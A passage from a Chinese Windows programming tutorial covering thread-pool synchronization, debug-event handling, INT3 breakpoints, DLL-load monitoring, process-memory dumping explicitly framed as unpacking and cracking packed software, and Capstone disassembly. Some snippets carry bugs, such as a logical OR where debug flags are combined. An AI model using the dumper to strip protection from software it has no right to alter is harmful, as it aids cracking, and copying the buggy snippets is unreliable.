  HANDLE hEvent = CreateEvent(NULL, FALSE, FALSE, NULL);
  SetEvent(hEvent);

  PTP_WORK pwk = CreateThreadpoolWork((PTP_WORK_CALLBACK)TaskHandlerKern, &hEvent, NULL);

  for (int i = 0; i < 1000; i++)
  {
    SubmitThreadpoolWork(pwk);
  }

  WaitForThreadpoolWorkCallbacks(pwk, FALSE);
  CloseThreadpoolWork(pwk);

  printf("相加后 ---> %d \n", g_count);
}

// --------------------------------------------------------------
// 线程池同步-信号量同步
// --------------------------------------------------------------
void NTAPI TaskHandlerSemaphore(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  // 锁定资源
  WaitForSingleObject(*(HANDLE *)Context, INFINITE);

  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
    g_count = g_count + 1;
  }

  // 解锁资源
  ReleaseSemaphoreWhenCallbackReturns(Instance, *(HANDLE*)Context, 1);
}

void TestSemaphore()
{
  // 创建信号量为100
  HANDLE hSemaphore = CreateSemaphore(NULL, 0, 100, NULL);

  ReleaseSemaphore(hSemaphore, 10, NULL);

  PTP_WORK pwk = CreateThreadpoolWork((PTP_WORK_CALLBACK)TaskHandlerSemaphore, &hSemaphore, NULL);

  for (int i = 0; i < 1000; i++)
  {
    SubmitThreadpoolWork(pwk);
  }

  WaitForThreadpoolWorkCallbacks(pwk, FALSE);
  CloseThreadpoolWork(pwk);
  CloseHandle(hSemaphore);

  printf("相加后 ---> %d \n", g_count);
}

// --------------------------------------------------------------
// 线程池同步-临界区
// --------------------------------------------------------------
void NTAPI TaskHandlerLeave(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work)
{
  // 锁定资源
  EnterCriticalSection((CRITICAL_SECTION*)Context);

  for (int x = 0; x < 100; x++)
  {
    printf("线程ID: %d ---> 子线程: %d \n", GetCurrentThreadId(), x);
    g_count = g_count + 1;
  }

  // 解锁资源
  LeaveCriticalSectionWhenCallbackReturns(Instance, (CRITICAL_SECTION*)Context);
}

void TestLeave()
{
  CRITICAL_SECTION cs;
  InitializeCriticalSection(&cs);

  PTP_WORK pwk = CreateThreadpoolWork((PTP_WORK_CALLBACK)TaskHandlerLeave, &cs, NULL);

  for (int i = 0; i < 1000; i++)
  {
    SubmitThreadpoolWork(pwk);
  }

  WaitForThreadpoolWorkCallbacks(pwk, FALSE);
  DeleteCriticalSection(&cs);
  CloseThreadpoolWork(pwk);

  printf("相加后 ---> %d \n", g_count);
}

int main(int argc,char *argv)
{
  // TestMutex();
  // TestKern();
  // TestSemaphore();
  TestLeave();

  system("pause");
  return 0;
}
```


## 第十篇：调试事件与反汇编技术

本章笔者将通过`Windows`平台下自带的调试API接口实现对特定进程的动态转存功能，首先简单介绍一下关于调试事件的相关信息，调试事件的建立需要依赖于`DEBUG_EVENT`这个特有的数据结构，该结构用于向调试器报告调试事件。当一个程序发生异常事件或者被调试器附加时，就会产生对应的`DEBUG_EVENT`调试事件，通常`DEBUG_EVENT`包含了多种调试类型，包括异常事件、进程创建事件、线程创建事件、进程退出事件和线程退出事件等等，我们只需要动态捕捉这些调试事件并作相应的处理即可实现更多有用的功能。

调试事件通常可以分为如下几种类型；

 - 异常事件 (Exception Event) - 发生了异常，例如访问非法的内存、除以零或调用了无效的函数。
 - 进程创建事件 (Process Creation Event) - 当一个新进程被创建时发送此事件。
 - 进程退出事件 (Process Exit Event) - 当一个进程退出时发送此事件。
 - 线程创建事件 (Thread Creation Event) - 当一个新线程被创建时发送此事件。
 - 线程退出事件 (Thread Exit Event) - 当一个线程退出时发送此事件。
 - 调试字符串事件 (Debug String Event) - 当一个进程向其调试器发送字符串消息时发送此事件。
 - 输出字符串事件 (Output String Event) - 当输出调试字符串时发送此事件。
 - 动态链接库加载事件（LOAD_DLL_DEBUG_EVENT） - 当进程装载 DLL 时发送此事件。

当我们需要调试一个程序时有两种方式可以实现，第一种方式是通过`CreateProcess()`函数创建一个进程，并在调用函数时指定`DEBUG_PROCESS || DEBUG_ONLY_THIS_PROCESS`则当程序被运行起来后自动进入到调试状态，另一种方式则是通过`DebugActiveProcess()`函数，该函数接受一个正在运行的进程PID号，可动态附加到一个已运行程序上而对其进行调试。

一旦调试器通过`CreateProcess()`附加并运行，下一步则是通过`WaitForDebugEvent()`用于等待一个调试事件，当有调试事件到达后系统会将调试类型存储到`debugEvent.dwDebugEventCode`这个变量内，此时我们可以通过判断该变量内的参数来对特定的事件做出自定义处理操作，接着会通过`ContinueDebugEvent()`继续等待下一个调试事件的到来，我们以打开一个进程并创建调试为例，看一下如下代码片段；
```c
#include <iostream>
#include <windows.h>

int main(int argc, char* argv[])
{
    DEBUG_EVENT debugEvent = { 0 };
    BOOL bRet = TRUE;

    // 创建调试进程
    STARTUPINFO startupInfo = { 0 };
    PROCESS_INFORMATION pInfo = { 0 };
    GetStartupInfo(&startupInfo);

    // 创建调试进程并设置 DEBUG_PROCESS || DEBUG_ONLY_THIS_PROCESS 调试事件
    bRet = CreateProcess("d://lyshark.exe", NULL, NULL, NULL, TRUE, DEBUG_PROCESS || DEBUG_ONLY_THIS_PROCESS, NULL, NULL, &startupInfo, &pInfo);
    if (!bRet)
    {
        return 0;
    }

    // 附加调试进程
    // DebugActiveProcess(13940)

    // 无限循环等待调试事件
    while (WaitForDebugEvent(&debugEvent, INFINITE))
    {
        // 根据调试事件判断
        switch (debugEvent.dwDebugEventCode)
        {
            // 异常调试事件
        case EXCEPTION_DEBUG_EVENT:
            printf("异常处理事件 \n");
            break;

            // 线程创建调试事件
        case CREATE_THREAD_DEBUG_EVENT:
            printf("线程创建调试事件 \n");
            break;
            // 进程创建调试事件
        case CREATE_PROCESS_DEBUG_EVENT:
            printf("进程创建调试事件 \n");
            break;
            // 线程退出调试事件
        case EXIT_THREAD_DEBUG_EVENT:
            printf("线程退出调试事件 \n");
            break;
            // 进程退出调试事件
        case EXIT_PROCESS_DEBUG_EVENT:
            printf("进程退出调试事件 \n");
            break;
            // 装载DLL调试事件
        case LOAD_DLL_DEBUG_EVENT:
            printf("装载DLL调试事件 \n");
            break;
            // 卸载DLL调试事件
        case UNLOAD_DLL_DEBUG_EVENT:
            printf("卸载DLL调试事件 \n");
            break;
            // 输出调试信息事件
        case OUTPUT_DEBUG_STRING_EVENT:
            printf("输出调试信息事件 \n");
            break;
        }

        // 使调试器能够继续以前报告调试事件的线程
        bRet = ContinueDebugEvent(debugEvent.dwProcessId, debugEvent.dwThreadId, DBG_CONTINUE);
    }

    system("pause");
    return 0;
}
```

当编译并运行上述程序后，读者应该能看到如下图所示的输出效果，其中包括了各类调试事件被触发时的提示信息，由于在调试事件内没有做任何操作，程序在加载后就被自动运行起来了；



### 10.1 调试事件获取寄存器

当读者需要获取到特定进程内的寄存器信息时，则需要在上述代码中进行完善，首先需要编写`CREATE_PROCESS_DEBUG_EVENT`事件，程序被首次加载进入内存时会被触发此事件，在该事件内首先我们通过`lpStartAddress`属性获取到当前程序的入口地址，并通过`SuspendThread`暂停程序的运行，当被暂停后则我没就可以通过`ReadProcessMemory`读取当前位置的一个字节机器码，目的是保存以便于后期的恢复，接着通过`WriteProcessMemory`向对端`(void*)dwAddr`地址写出一个`0xCC`断点，该断点则是`int3`停机指令，最后`ResumeThread`恢复这个线程的运行，此时程序中因存在断点，则会触发一个`EXCEPTION_DEBUG_EVENT`异常事件。
```c
case CREATE_PROCESS_DEBUG_EVENT:
{
    // 获取入口地址 0x0 可以增加偏移到入口后任意位置
    DWORD dwAddr = 0x0 + (DWORD)de.u.CreateProcessInfo.lpStartAddress;

    // 暂停线程
    SuspendThread(de.u.CreateProcessInfo.hThread);

    // 读取入口地址处的字节码
    ReadProcessMemory(de.u.CreateProcessInfo.hProcess, (const void*)dwAddr, &bCode, sizeof(BYTE), &dwNum);

    // 在入口地址处写入 0xCC 即写入 INT 3 暂停进程执行
    WriteProcessMemory(de.u.CreateProcessInfo.hProcess, (void*)dwAddr, &bCC, sizeof(BYTE), &dwNum);

    // 恢复线程
    ResumeThread(de.u.CreateProcessInfo.hThread);
    break;
}
```
当异常断点被触发后，则下一步就会触发两次异常，第一次异常我们可以使用`break`直接跳过，因为此断点通常为系统断点，而第二次断点则是我们自己设置的int3断点，此时需要将该请求发送至`OnException`异常处理函数对其进行处理，在传递时需要给与`&de`调试事件，以及`&bCode`原始的机器码；
```c
case EXCEPTION_DEBUG_EVENT:
{
    switch (dwCC_Count)
    {
        // 第0次是系统断点,这里我们直接跳过
    case 0:
        dwCC_Count++; break;

        // 第1次断点,我们让他执行下面的函数
    case 1:
        OnException(&de, &bCode); dwCC_Count++; break;
    }
}
```

异常事件会被流转到`OnException(DEBUG_EVENT* pDebug, BYTE* bCode)`函数内，在本函数内我们首先通过使用`OpenProcess/OpenThread`两个函数得到当前进程的句柄信息，接着使用`SuspendThread(hThread)`暂时暂停进程内线程的执行，通过调用`ReadProcessMemory`得到线程上下文异常产生的首地址，当得到首地址后，则可以调用`GetThreadContext(hThread, &context)`得到当前线程的上下文，一旦上下文被获取到则读者即可通过`context.`的方式得到当前程序的所有寄存器信息，为了让程序正常执行当读取结束后，通过`WriteProcessMemory`我们将原始机器码写回到内存中，并`SetThreadContext`设置当前上下文，最后使用`ResumeThread`运行该线程；
```c
void OnException(DEBUG_EVENT* pDebug, BYTE* bCode)
{
    CONTEXT context;
    DWORD dwNum;
    BYTE bTmp;

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pDebug->dwProcessId);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, pDebug->dwThreadId);

    // 暂停指定的线程
    SuspendThread(hThread);

    // 读取出异常首地址
    ReadProcessMemory(hProcess, pDebug->u.Exception.ExceptionRecord.ExceptionAddress, &bTmp, sizeof(BYTE), &dwNum);

    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(hThread, &context);

    printf("\n");

    printf("EAX = 0x%08X  |  EBX = 0x%08X  |  ECX = 0x%08X  |  EDX = 0x%08X \n",
        context.Eax, context.Ebx, context.Ecx, context.Edx);
    printf("EBP = 0x%08X  |  ESP = 0x%08X  |  ESI = 0x%08X  |  EDI = 0x%08X \n\n",
        context.Ebp, context.Esp, context.Esi, context.Edi);

    printf("EIP = 0x%08X  |  EFLAGS = 0x%08X\n\n", context.Eip, context.EFlags);

    // 将刚才的CC断点取消,也就是回写原始指令集
    WriteProcessMemory(hProcess, pDebug->u.Exception.ExceptionRecord.ExceptionAddress, bCode, sizeof(BYTE), &dwNum);
    context.Eip--;

    // 设置线程上下文
    SetThreadContext(hThread, &context);

    // printf("进程句柄:   0x%08X \n", pDebug->u.CreateProcessInfo.hProcess);
    // printf("主线程句柄: 0x%08X \n", pDebug->u.CreateProcessInfo.hThread);
    printf("虚拟入口点: 0x%08X \n", pDebug->u.CreateProcessInfo.lpBaseOfImage);

    // 恢复线程执行
    ResumeThread(hThread);
    CloseHandle(hThread);
    CloseHandle(hProcess);
}
```

当这段程序被运行后，读者可看到如下图所示的输出信息，该进程中当前寄存器的状态基本上都可以被获取到；



### 10.2 调试事件获取DLL装载

理解了如何通过调试事件输出当前进程中寄存器信息，那么实现加载DLL模块也会变得很容易实现，加载DLL模块主要使用`LOAD_DLL_DEBUG_EVENT`这个通知事件，该事件可检测进程加载的模块信息，一旦有新模块被加载或装入那么则会触发一个通知事件，利用该方法并配合磁盘路径获取函数则可很容易的实现进程模块加载的监控。

获取加载的动态链接库DLL的详细信息，具体实现细节如下：

 - 首先，代码通过`GetFileSize`函数获取目标`DLL`文件的大小，如果大小为0，则立即退出函数。
 - 然后，代码调用`CreateFileMapping`和`MapViewOfFile`函数创建了一个内存映射对象，该映射对象可以让代码访问`DLL`文件的内容。
 - 随后，代码调用`GetMappedFileName`函数获取该内存映射对象关联的`DLL`文件的路径，其中需要使用`QueryDosDevice`查询函数来确认磁盘符号对应的真实文件名称， 如果找到对应的真实文件名称，则可以更新原始路径为真实路径，这里用到了字符串操作函数_tcslen、 _tcsnicmp以及_tcsncpy等。
 - 最后，再调用`UnmapViewOfFile`和`CloseHandle`函数清理资源，并将相关的信息输出到控制台上，包括基址、名称、大小和路径等信息。

有了这段获取DLL完整路径的程序片段，那么实现这个功能将变得很容易，我们看看一下`OnDllLoaded`中是如何针对DLL进程处理的，实现代码片段如下所示；
```c
void OnDllLoaded(const LOAD_DLL_DEBUG_INFO* pDebug)
{
    //printf("基址: 0x%-8X --> ", pDebug->lpBaseOfDll);

    BOOL bSuccess = FALSE;
    TCHAR pszFilename[MAX_PATH + 1];
    HANDLE hFileMap;

    // 获取文件大小
    DWORD dwFileSizeHi = 0;
    DWORD dwFileSizeLo = GetFileSize(pDebug->hFile, &dwFileSizeHi);

    //printf("长度: %9d --> ", dwFileSizeLo);

    if (dwFileSizeLo == 0 && dwFileSizeHi == 0)
    {
        return;
    }
    // 创建内存映射
    hFileMap = CreateFileMapping(pDebug->hFile, 0, PAGE_READONLY, 0, 1, 0);

    if (hFileMap)
    {
        void* pMem = MapViewOfFile(hFileMap, FILE_MAP_READ, 0, 0, 1);
        if (pMem)
        {
            // 获取当前映射名称
            if (GetMappedFileName(GetCurrentProcess(), pMem, pszFilename, MAX_PATH))
            {
                TCHAR szTemp[4096] = { 0 };

                // 得到当前所有磁盘字符串
                if (GetLogicalDriveStrings(4096 - 1, szTemp))
                {
                    TCHAR szName[MAX_PATH];
                    TCHAR szDrive[3] = TEXT(" :");
                    BOOL bFound = FALSE;
                    TCHAR* p = szTemp;
                    do
                    {
                        *szDrive = *p;
                        if (QueryDosDevice(szDrive, szName, 4096))
                        {
                            UINT uNameLen = _tcslen(szName);
                            if (uNameLen < MAX_PATH)
                            {
                                bFound = _tcsnicmp(pszFilename, szName, uNameLen) == 0;
                                if (bFound)
                                {
                                    TCHAR szTempFile[MAX_PATH];
                                    _stprintf(szTempFile, TEXT("%s%s"), szDrive, pszFilename + uNameLen);
                                    _tcsncpy(pszFilename, szTempFile, MAX_PATH);
                                }
                            }
                        }
                        while (*p++);
                    } while (!bFound && *p);
                }
            }
            bSuccess = TRUE;
            UnmapViewOfFile(pMem);
        }
        CloseHandle(hFileMap);
    }

    printf("基址: 0x%08X \t 相对名称: %-30s \t 大小: %-9d \t 路径: %s \n",
        pDebug->lpBaseOfDll, GetBaseName(pszFilename), dwFileSizeLo, pszFilename);
}
```

上述程序被运行后，则可输出被加载进程的所有模块信息，其中包括了模块基址，相对名称，模块大小，模块完整路径等，输出效果如下图所示；



### 10.3 调试事件转存进程内存

我们继续延申调试事件的话题，实现进程转存功能，进程转储功能是指通过调试API使获得了目标进程控制权的进程，将目标进程的内存中的数据完整地转存到本地磁盘上，对于加壳软件，通常会通过加密、压缩等手段来保护其代码和数据，使其不易被分析和破解。在这种情况下，通过进程转储功能，可以将加壳程序的内存镜像完整地保存到本地，以便进行后续的分析和破解。

在实现进程转储功能时，主要使用调试API和内存读写函数。具体实现方法包括：以调试方式启动目标进程，将其暂停在运行前的位置；让目标进程进入运行状态；使用ReadProcessMemory函数读取目标进程内存，并将结果保存到缓冲区；将缓冲区中的数据写入文件；关闭目标进程的调试状态。

首先老样子先来看`OnException`回调事件，当进程被断下时首先通过线程函数恢复该线程的状态，在进程被正确解码并运行起来时直接将该进程的EIP入口地址传递给`MemDump();`内存转存函数，实现转存功能；
```c
void OnException(DEBUG_EVENT *pDebug, BYTE *bCode)
{
    CONTEXT context;
    DWORD dwNum;
    BYTE bTmp;

    // 打开当前进程与线程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pDebug->dwProcessId);
    printf("[+] 当前打开进程句柄: %d 进程PID: %d \n", hProcess, pDebug->dwProcessId);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, pDebug->dwThreadId);
    printf("[+] 当前打开线程句柄: %d 线程PPID: %d \n", hThread, pDebug->dwThreadId);
    // 暂停当前线程
    SuspendThread(hThread);

    // 读取出异常产生的首地址
    ReadProcessMemory(hProcess, pDebug->u.Exception.ExceptionRecord.ExceptionAddress, &bTmp, sizeof(BYTE), &dwNum);
    printf("[+] 当前异常产生地址为: 0x%08X \n", pDebug->u.Exception.ExceptionRecord.ExceptionAddress);

    // 设置当前线程上下文，获取线程上下文
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(hThread, &context);

    printf("[-] 恢复断点前: EAX = 0x%08X  EIP = 0x%08X \n", context.Eax, context.Eip);
    // 将刚才的CC断点取消，也就是回写原始的指令集
    WriteProcessMemory(hProcess, pDebug->u.Exception.ExceptionRecord.ExceptionAddress, bCode, sizeof(BYTE), &dwNum);

    // 当前EIP减一并设置线程上下文
    context.Eip--;
    SetThreadContext(hThread, &context);
    printf("[+] 恢复断点后: EAX = 0x%08X  EIP = 0x%08X \n", context.Eax, context.Eip);
    printf("[+] 获取到动态入口点: 0x%08x \n", pDebug->u.CreateProcessInfo.lpBaseOfImage);
    // 转储内存镜像
    MemDump(pDebug, context.Eip, (char *)"dump.exe");
    // 恢复线程
    ResumeThread(hThread);
    CloseHandle(hThread);
    CloseHandle(hProcess);
}
```

MemDump函数中，首先通过调用`CreateFile`函数打开`me32.szExePath`路径也就是转存之前的文件，通过使用`VirtualAlloc`分配内存空间，分配大小是PE头中文件实际大小，接着`OpenProcess`打开正在运行的进程，并使用`ReadProcessMemory`读取文件的数据，此处读取的实在内存中的镜像数据，当读取后手动修正，文件的入口地址，及文件的对齐方式，接着定位PE节区数据，找到节区首地址，并循环将当前节区数据赋值到新文件缓存中，最后当一切准备就绪，通过使用`WriteFile`函数将转存后的文件写出到磁盘中；
```c
void MemDump(DEBUG_EVENT *pDe, DWORD dwEntryPoint, char *DumpFileName)
{
    // 得到当前需要操作的进程PID
    DWORD dwPid = pDe->dwProcessId;
    MODULEENTRY32 me32;

    // 对系统进程拍摄快照
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, dwPid);

    me32.dwSize = sizeof(MODULEENTRY32);
    // 得到第一个模块句柄,第一个模块句柄也就是程序的本体
    BOOL bRet = Module32First(hSnap, &me32);
    printf("[+] 当前转储原程序路径: %s \n", me32.szExePath);

    // 打开源文件,也就是dump之前的文件
    HANDLE hFile = CreateFile(me32.szExePath, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
    if (hFile == INVALID_HANDLE_VALUE)
        exit(0);

    // 判断PE文件的有效性
    IMAGE_DOS_HEADER imgDos = { 0 };
    IMAGE_NT_HEADERS imgNt = { 0 };

    DWORD dwReadNum = 0;

    // 读入当前内存程序的DOS头结构
    ReadFile(hFile, &imgDos, sizeof(IMAGE_DOS_HEADER), &dwReadNum, NULL);
    // 判断是否是一个合格的DOS头
    if (imgDos.e_magic != IMAGE_DOS_SIGNATURE)
        return;
    // 设置文件指针到NT头上
    SetFilePointer(hFile, imgDos.e_lfanew, 0, FILE_BEGIN);
    ReadFile(hFile, &imgNt, sizeof(IMAGE_NT_HEADERS), &dwReadNum, NULL);
    // 判断是否是合格的NT头
    if (imgNt.Signature != IMAGE_NT_SIGNATURE)
        return;

    // 得到EXE文件的大小
    DWORD BaseSize = me32.modBaseSize;
    printf("[+] 当前内存文件大小: %d --> NT结构原始大小: %d 一致性检测: True \n", BaseSize, imgNt.OptionalHeader.SizeOfImage);

    // 如果PE头中的大小大于实际内存大小，则以PE头中大小为模板
    if (imgNt.OptionalHeader.SizeOfImage > BaseSize)
    {
        BaseSize = imgNt.OptionalHeader.SizeOfImage;
    }

    // 分配内存空间，分配大小是PE头中文件实际大小，并打开进程
    LPVOID pBase = VirtualAlloc(NULL, BaseSize, MEM_COMMIT, PAGE_READWRITE);
    printf("[+] 正在分配转储空间 句柄: %d \n", pBase);

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);

    // 读取文件的数据，此处读取的实在内存中的镜像数据
    bRet = ReadProcessMemory(hProcess, me32.modBaseAddr, pBase, me32.modBaseSize, NULL);

    // 判断PDOS头的有效性
    PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)pBase;
    if (pDos->e_magic != IMAGE_DOS_SIGNATURE)
        return;

    // 计算出NT头数据
    PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)(pDos->e_lfanew + (PBYTE)pBase);
    if (pNt->Signature != IMAGE_NT_SIGNATURE)
        return;

    // 设置文件的入口地址
    pNt->OptionalHeader.AddressOfEntryPoint = dwEntryPoint - pNt->OptionalHeader.ImageBase;
    printf("[*] 正在设置Dump文件相对RVA入口地址: 0x%08X \n", pNt->OptionalHeader.AddressOfEntryPoint);

    // 设置文件的对齐方式
    pNt->OptionalHeader.FileAlignment = 0x1000;
    printf("[*] 正在设置Dump文件的对齐值: %d \n", pNt->OptionalHeader.FileAlignment);

    // 找到节区首地址,并循环将当前节区数据赋值到新文件缓存中
    PIMAGE_SECTION_HEADER pSec = (PIMAGE_SECTION_HEADER)((PBYTE)&pNt->OptionalHeader + pNt->FileHeader.SizeOfOptionalHeader);
    for (int i = 0; i < pNt->FileHeader.NumberOfSections; i++)
    {
        pSec->PointerToRawData = pSec->VirtualAddress;
        printf("[+] 正在将虚拟地址: 0x%08X --> 设置到文件地址: 0x%08X \n", pSec->VirtualAddress, pSec->PointerToRawData);
        pSec->SizeOfRawData = pSec->Misc.VirtualSize;
        printf("[+] 正在将虚拟大小: %d --> 设置到文件大小: %d \n", pSec->Misc.VirtualSize, pSec->SizeOfRawData);
        pSec++;
    }
    CloseHandle(hFile);

    // 打开转储后的文件.
    hFile = CreateFile(DumpFileName, GENERIC_WRITE, FILE_SHARE_READ, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
    if (hFile == INVALID_HANDLE_VALUE)
        exit(0);
    printf("[*] 转储 %s 文件到本地 \n", DumpFileName);

    DWORD dwWriteNum = 0;

    // 将读取的数据写入到文件
    bRet = WriteFile(hFile, pBase, me32.modBaseSize, &dwWriteNum, NULL);
    if (dwWriteNum != me32.modBaseSize || FALSE == bRet)
        printf("写入错误 !");
    // 关闭于释放资源
    CloseHandle(hFile);
    VirtualFree(pBase, me32.modBaseSize, MEM_RELEASE);
    CloseHandle(hProcess);
    CloseHandle(hSnap);
}
```

读者可自行运行这段程序，当程序运行后即可将指定的一个文件内存数据完整的转存到磁盘中，输出效果如下图所示；



### 10.4 认识Capstone反汇编引擎

Capstone 是一款开源的反汇编框架，目前该引擎支持的CPU架构包括x86、x64、ARM、MIPS、POWERPC、SPARC等，Capstone 的特点是快速、轻量级、易于使用，它可以良好地处理各种类型的指令，支持将指令转换成AT&T汇编语法或Intel汇编语法等多种格式。Capstone的库可以集成到许多不同的应用程序和工具中，因此被广泛应用于反汇编、逆向工程、漏洞分析和入侵检测等领域，著名的比如IDA Pro、Ghidra、Hopper Disassembler等调试器都在使用该引擎。


 - 官方网站：http://www.capstone-engine.org/

读者可自行下载符合条件的版本，这里笔者选择的是`capstone-4.0.2-win32`版本，下载并解压这个版本，当读者解压后以后即可在项目中引用该引擎，Capstone引擎的配置非常容易，仅仅需要配置引用目录及库目录即可，配置完成如下图所示；



实现反汇编的第一步则是打开一个可执行文件，通常在引擎内可调用`cs_open()`函数实现打开，当打开成功时则该函数会返回一个句柄`(handle)`用来进行后续的反汇编操作，函数的原型通常如下：
```c
cs_err cs_open
(
    cs_arch arch, 
    cs_mode mode, 
    csh *handle
)
```

其中，各参数的含义如下：

 - arch：指定要打开的CPU架构，例如`CS_ARCH_X86`表示x86架构，CS_ARCH_ARM表示ARM架构等。
 - mode：指定CPU的模式，例如`CS_MODE_32`表示32位模式，CS_MODE_64表示64位模式等。
 - handle：一个指针，用于返回打开成功后的句柄handle。

如上所示，函数返回值为`cs_err`类型，表示函数执行的状态或错误码，它是一个枚举类型，当函数执行成功时返回的数值为`CS_ERR_OK`，其次函数的第一个参数是指定`CPU`架构为`x86`，第二个参数是指定模式为`32位`模式，最后一个参数用来返回`(handle)`句柄。

当一个进程被打开后，则下一步可以通过调用`cs_disasm()`函数来实现对打开文件的反汇编，cs_disasm函数是`Capstone`反汇编框架中的一个函数，用于对指定的二进制数据进行反汇编，返回解码后的指令信息。函数原型通常如下：
```c
size_t cs_disasm
(
    csh handle,
    const uint8_t *code,
    size_t code_size,
    uint64_t address,
    size_t count,
    cs_insn *insn
);
```

其中，各参数的含义如下：

 - handle：反汇编器句柄，表示使用哪一个`Capstone`实例来执行反汇编操作。
 - code：待反汇编的二进制数据的指针，可以是一个地址。
 - code_size：待反汇编的数据的长度，以字节为单位。
 - address：指定待反汇编数据的地址，通常为起始地址。
 - count：指定要反汇编的指令数，如果为0，则会一直反汇编至遇到`code_size`终止。
 - insn：指向用于保存反汇编结果的`cs_insn`结构体对象指针，在函数调用结束后存储反汇编结果。

函数返回值为`size_t`类型，代表解码的指令数量。在`cs_disasm()`函数中，我们通过将待反汇编的数据以及其它必要的参数传递给该函数，然后使用`cs_insn`结构体对象来存储反汇编结果。通过该函数，我们可以获取指令的指令助记符、指令操作数、寻址模式、使用的寄存器等信息。

当读者理解了这两个API接口后，那么反汇编实现将变得很容易实现，我们来看一下官方针对反汇编实现的一种方式，我们自行封装一个`DisassembleCode()`函数，该函数传入机器码字符串以及该字符串的长度则会输出该字符串的反汇编代码片段，这段代码的实现如下所示；
```c
#include <stdio.h>
#include <inttypes.h>
#include <capstone/capstone.h>

#pragma comment(lib,"capstone32.lib")

// 反汇编字符串
void DisassembleCode(char *start_offset, int size)
{
    csh handle;
    cs_insn *insn;
    size_t count;

    char *buffer = "\x55\x8b\xec\x81\xec\x24\x03\x00\x00\x6a\x17\x90\x90\x90";

    // 打开句柄
    if (cs_open(CS_ARCH_X86, CS_MODE_32, &handle) != CS_ERR_OK)
    {
        return;
    }

    // 反汇编代码,地址从0x1000开始,返回总条数
    count = cs_disasm(handle, (unsigned char *)start_offset, size, 0x1000, 0, &insn);

    if (count > 0)
    {
        size_t index;
        for (index = 0; index < count; index++)
        {
            for (int x = 0; x < insn[index].size; x++)
            {
                printf("机器码: %d -> %02X \n", x, insn[index].bytes[x]);
            }

            printf("地址: 0x%"PRIx64" | 长度: %d 反汇编: %s %s \n", insn[index].address, insn[index].size, insn[index].mnemonic, insn[index].op_str);
        }

        cs_free(insn, count);
    }
    else
    {
        printf("反汇编返回长度为空 \n");
    }

    cs_close(&handle);
}

int main(int argc, char *argv[])
{
    char *buffer = "\x55\x8b\xec\x81\xec\x24\x03\x00\x00\x6a\x17\x90\x90\x90";
    DisassembleCode(buffer, 14);

    system("pause");
    return 0;
}
```

运行上述代码片段，则可看到如下图所示的输出效果；



上述代码虽然实现了反汇编但并无法保存结果，对于一个通用程序来说，我们当然是希望这写反汇编代码能够存储到一个特殊的容器内，当需要使用是可以随时调出来，此处我们通过定义一个`MyStruct`并将所需反汇编指令通过`ptr.push_back(location)`放入到一个全局容器内进行存储，当读者调用`DisassembleCode(buffer, 14)`函数是则会返回`std::vector<MyStruct> ptr`，并在主函数内通过循环输出这个容器，改进后的代码将会更加易于使用；
```c
#include <iostream>
#include <vector>
#include <inttypes.h>
#include <capstone/capstone.h>

#pragma comment(lib,"capstone32.lib")

using namespace std;

typedef struct
{
    int OpCodeSize;
    int OpStringSize;
    unsigned long long Address;
    unsigned char OpCode[16];
    char OpString[256];
}MyStruct;

static void print_string_hex(unsigned char *str, size_t len)
{
    unsigned char *c;
    for (c = str; c < str + len; c++)
    {
        printf("0x%02x ", *c & 0xff);
    }
    printf("\n");
}

// 反汇编字符串
std::vector<MyStruct> DisassembleCode(char *start_offset, int size)
{
    std::vector<MyStruct> ptr = {};

    csh handle;
    cs_insn *insn;
    size_t count;

    // 打开句柄
    if (cs_open(CS_ARCH_X86, CS_MODE_32, &handle) != CS_ERR_OK)
    {
        return{};
    }

    // 反汇编代码,地址从0x1000开始,返回总条数
    count = cs_disasm(handle, (unsigned char *)start_offset, size, 0x0, 0, &insn);

    if (count > 0)
    {
        size_t index;

        // 循环反汇编代码
        for (index = 0; index < count; index++)
        {
            // 清空
            MyStruct location;
            memset(&location, 0, sizeof(MyStruct));

            // 循环拷贝机器码
            for (int x = 0; x < insn[index].size; x++)
            {
                location.OpCode[x] = insn[index].bytes[x];
            }

            // 拷贝地址长度
            location.Address = insn[index].address;
            location.OpCodeSize = insn[index].size;

            // 拷贝反汇编指令
            strcpy_s(location.OpString, insn[index].mnemonic);
            strcat_s(location.OpString, " ");
            strcat_s(location.OpString, insn[index].op_str);

            // 得到反汇编长度
            location.OpStringSize = strlen(location.OpString);

            ptr.push_back(location);
        }
        cs_free(insn, count);
    }
    else
    {
        return{};
    }
    cs_close(&handle);
    return ptr;
}

int main(int argc, char *argv[])
{
    char *buffer = "\x55\x8b\xec\x81\xec\x24\x03\x00\x00\x6a\x17\x90\x90\x90";

    // 反汇编并返回容器
    std::vector<MyStruct> ptr = DisassembleCode(buffer, 14);

    // 循环整个容器
    for (int x = 0; x < ptr.size(); x++)
    {
        // 输出地址
        printf("%08X | ", ptr[x].Address);
        printf("%03d | ", ptr[x].OpStringSize);

        // 输出反汇编
        for (int z = 0; z < ptr[x].OpStringSize; z++)
        {
            printf("%c", ptr[x].OpString[z]);
        }
        printf("\n");

        // 输出机器码
        for (int y = 0; y < ptr[x].OpCodeSize; y++)
        {
            printf("%02X ", ptr[x].OpCode[y]);
        }

        printf("\n");
        // print_string_hex(ptr[x].OpCode, ptr[x].OpCodeSize);
    }

    system("pause");
    return 0;
}
```

运行后输出效果图如下图所示；



### 10.5 认识XEDParse汇编引擎

